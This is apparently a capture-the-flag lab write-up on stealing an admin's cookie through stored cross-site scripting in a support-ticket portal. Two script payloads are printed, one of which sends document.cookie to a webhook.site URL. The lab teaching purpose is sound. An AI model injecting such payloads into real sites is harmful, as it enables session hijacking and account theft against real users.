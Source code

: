 # Challange

### In the challenge scenario, there is a support portal and an admin panel, and the objective is to steal the admin's cookie.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/7f520183-0616-4337-9e0c-80f99c846294) ![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/7867570c-235d-437b-bf59-5aa9cf2c6e86)

- In the ticket section, I utilized a payload `<script>window.location.href='<webhook site Url'</script>` that redirects the admin to `webhook.site`. This allows me to steal the admin's ID from the intercepted request on `webhook.site`.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/f496db1d-6f0f-43c2-a837-6c23cdb1b64c)

- Upon logging into the admin panel, an automatic redirection occurs, leading you to a specific URL.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/b624a414-c1e2-42cd-839d-665fd1510341)


- In this payload `<script> var i=new Image; i.src="<webhook.site URL>"+document.cookie;</script>`, I included code to fetch an image from a specified URL. This code also resulted in the cookies being exposed and displayed on the webhook site, allowing me to capture and analyze them.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/aacebd47-c6d6-457a-a767-af2680dd20f6)


- Upon inspecting the results in the webhook.site, we observed the captured information and data that was obtained through the payload and cookies.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/8663dae8-fa66-403f-9709-ec18a772742d)
